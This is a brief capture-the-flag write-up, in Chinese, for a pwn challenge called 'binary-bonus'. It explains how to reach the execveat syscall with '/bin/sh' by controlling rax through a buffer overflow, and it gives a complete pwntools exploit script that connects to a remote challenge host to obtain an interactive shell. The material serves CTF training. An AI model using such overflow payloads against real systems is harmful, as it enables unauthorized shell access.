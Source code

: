 ### binary-bonus

本題僅能控`rax` (syscall 0 return 1 ~ 0x148)以及`rsi`，查syscall表查到唯一可用為`execveat(0, "/bin/sh", 0, 0, 0)`，故buffer overflow時先寫入`"/bin/sh"`及調整`rax`為`322`，接著在`re`t的位置寫入`0x4000ed`(不能直接跳到syscall，要先將`rdx`清空)

#### exploit
```python
#!/usr/bin/env python3
from pwn import *

context.update(arch='amd64', os='linux')

payload = b'/bin/sh\x00'
payload += cyclic(296 - len(payload)).encode()
payload += p64(0x4000ED) # xor rdx, rdx; syscall
payload += cyclic(321 - len(payload)).encode()

r = remote('pwnhub.tw', 55688)
r.sendline(payload)
r.interactive()
```
